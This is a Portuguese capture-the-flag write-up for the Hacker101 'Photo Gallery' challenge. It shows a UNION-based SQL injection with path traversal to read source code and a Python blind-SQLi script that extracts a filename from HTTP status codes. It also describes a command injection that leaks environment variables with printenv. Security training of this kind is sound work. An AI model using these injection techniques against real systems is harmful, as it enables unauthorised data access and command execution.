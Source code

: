 ## INTRODUÇÃO
![](https://i.imgur.com/xIUqemp.png)

Carolina Camacho

RM98171

noirangel707@protonmail.com

## FLAG0

O desafio escolhido foi Photo Gallery.
![](https://i.imgur.com/enz0vU0.png)
A página inicial do desafio é uma página contendo três fotos, das quais uma não é visível.

Analisando o código fonte percebi algo peculiar:
![](https://i.imgur.com/QU8Sbzt.png)
As imagens estão passando por uma página chamada "fetch" que recebe um parâmetro "id" contendo o id da foto. Acessando essa página obtemos o arquivo da foto, porém em texto:
![](https://i.imgur.com/F2joeSt.png)
Esses tipos de consultas podem ser vulneráveis a Error Based SQLi, por tanto tentei algumas queries possíveis mas sem sucesso em nenhuma, sempre acabava com a mensagem de "Internal Error":
![](https://i.imgur.com/lxQkBKG.png)
Após algumas horas quebrando a cabeça, decidi acessar a dica:
![](https://i.imgur.com/EhObF5f.png)
O que não foi extremamente útil, porque já estava trabalhando com a suposição de um SQLi, mas sem sucesso. Após mais algumas horas, decidi procurar um writeup porque não fazia mais ideia do que tentar:
![](https://i.imgur.com/mHeb4Hi.png)
Aparentemente em uma versão mais antiga do desafio, a dica era mais útil, reafirmando o SQLi mas dando uma dica essencial: a aplicação está utilizando **flask**, que é uma biblioteca **python**. Com essa informação, algumas novas ideias apareceram. Se essa aplicação foi implementada em Python, é possível que através de SQLi + Path Traversal eu possa acessar o código Python da página.
![](https://i.imgur.com/JjYyyxU.png)
Utilizando a seguinte query: `?id=99 UNION SELECT '/../../main.py'` é possível acessar, de fato, o código python. É necessário que o id selecionado **não exista**. O comando "UNION" irá unir o resultado das duas queries, a original e a nossa query injetada, que por sua vez irá acessar o arquivo "main.py", que está dois diretórios acima do diretório de trabalho da aplicação.

Após formatar o código python, eu adquiri a flag:
![](https://i.imgur.com/9w4r5QW.png)

## FLAG1

Essa flag exigiu bastante esforço. Utilizando a dica do writeup que estava lendo, já que essa dica é mais detalhada, podemos começar a raciocinar:
![](https://i.imgur.com/RtZdUZG.png)
Claramente a flag está relacionada com a foto de id 3, que nunca é exibida.

Quando fazemos uma query por qualquer ID que não seja o 3, se ele não existir, será retornado uma página 404 normal. O problema sempre está no id 3, que retorna um código 500 - Internal Server Error. Isso significa que existe algo com o arquivo de id 3 que quebra a query SQL. Analisando o código da main.py obtido anteriormente, o único campo possível que poderia quebrar a query SQL é o campo "filename".

Sabendo que qualquer query inexistente retorna 404 e a query que contém o filename do id 3 retorna 500, podemos construir um código que irá utilizar esses status codes para montar o nome do arquivo que está quebrado.

```python
import requests

def check(str):
    resp = requests.get(f"https://1a2dcd11786d02757af0605099400221.ctf.hacker101.com/fetch?id=-1 UNION SELECT filename FROM photos WHERE filename LIKE '{str}%' AND id=3")
    print(resp.status_code)
    if resp.status_code == 500:
        return True
    else:
        return False

CHARSET = list(''.join(map(str, range(10))) + 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ')
payload = ''

while True:
    for c in CHARSET:
        print(f"Trying: {c} for {payload}")
        test = payload + c
        if check(str(test)):
            payload += c
            print(payload)
            break

```

O código em questão irá utilizar do comando "LIKE" na nova query SQL. Esse, por sua vez, irá encontrar um arquivo que contenha algo "como" a string inserida. Além disso, forçamos que o ID seja 3. Após isso, iremos iterar sobre uma lista de caracteres (charset) que irá incrementar o nome do arquivo com uma letra a cada request feita com a resposta sendo um 500 - Internal Server Error. Eventualmente teremos o nome completo do arquivo.
![](https://i.imgur.com/qNbssOW.png)
Adicionando as tags de FLAG da Hacker101 e inputando a flag, conquistamos mais uma, concluindo o desafio da flag1.

## FLAG2
![](https://i.imgur.com/YWECWkl.png)
A segunda flag irá trabalhar com outra query SQL. No código, existe uma linha que utiliza uma chamada para subprocess, que é suspeita porque permite a execução de comandos de sistema. Pela forma como está escrita, é possível que possamos fechar as aspas e adicionar um payload na query.

Vamos atualizar o nome do arquivo id3. Com o payload correto, é possível, por conta da linha que utiliza a subprocess, injetar a flag no código fonte da página principal.
![](https://i.imgur.com/I3ox177.png)
Utilizando esse payload, definimos que o arquivo de id 3 terá seu nome alterado para o output do comando "printenv". O que fará com que a flag seja injetada no código fonte da página:
![](https://i.imgur.com/6AkMcVi.png)

Encerrando, assim, o CTF.
